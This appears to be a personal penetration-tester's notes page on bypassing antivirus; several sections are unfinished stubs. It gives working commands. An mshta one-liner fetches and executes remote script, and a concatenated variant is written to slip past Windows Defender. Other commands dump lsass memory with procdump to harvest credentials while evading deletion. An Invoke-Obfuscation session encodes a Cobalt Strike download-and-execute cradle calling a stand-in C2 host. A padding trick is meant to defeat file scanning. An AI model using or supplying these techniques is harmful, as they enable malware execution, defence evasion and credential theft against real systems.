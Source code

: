 ```yaml
---
title: "Bypassing AV"
date: 2020-07-16T13:41:37+02:00
draft: false
---
```

asdas

#### Bypassing Defender (Work Out)
reference: https://labs.f-secure.com/blog/bypassing-windows-defender-runtime-scanning/

#### Finding AMSI triggers ToDo
Using the 

#### Bypassing generic Defender detection using string concat.
In a lot of cases potentially malicious commands will be blocked by defender. Say we execute the following command, which downloads a JavaScript file which will execute using Microsoft HTA and spawn a calculator.

```
$ mshta.exe vbscript:Close(Execute("GetObject(""script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js"")"))
```
This will get flagged my defender immediately and execution will be prevented. However, using string concatination we can very easily obfuscate commands. The following command does not get flagged by Defender:
```
mshta.exe vbscript:Close(Execute("GetO"+"bject"+"(""script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js"")"))
```
***

#### lsass dumping under Windows Defender
When using procdump to dump lsass the dump is removed as soon as it touches disk by Windows Defender. My supplying the PID instead of the process name this can be bypassed. Get the PID via:
```
 tasklist /fi "imagename eq lsass.exe"
```
Then dump using the PID:
```
procdump -accepteula -ma <PID> lsass.dmp
```
***


#### Unhook API calls ToDo

#### Add data to the binary
Adding random or "known good" data to the beginning or end of a binary can serve two causes. One; some antimalware software has a limit on size of the files they can inspect (for performance reasons). Adding lots of exra data might exempt you from analysis.
Two; Adding data from software or files that is known to be good can help increas the "goodness"-score when statically analysing the file.

#### Obfuscating PowerShell using Invoke-Obfuscation ToDo
Invoke-Obfuscation is a framework to obfuscate PowerShell. The examples below show how to encode a PowerShell webdelivery scriptblock generated by Cobalt Strike using the 'TOKEN' obfuscation method.

```
$ Import-Module ./Invoke-Obfuscation.psd1
$ Invoke-Obfuscation
$ set SCRIPTBLOCK IEX (New-Object Net.Webclient).downloadstring('http://cobaltstrike.c2/evil.ps1')
$ TOKEN
$ ALL
$ 1
```
***


#### Using syscals ToDo
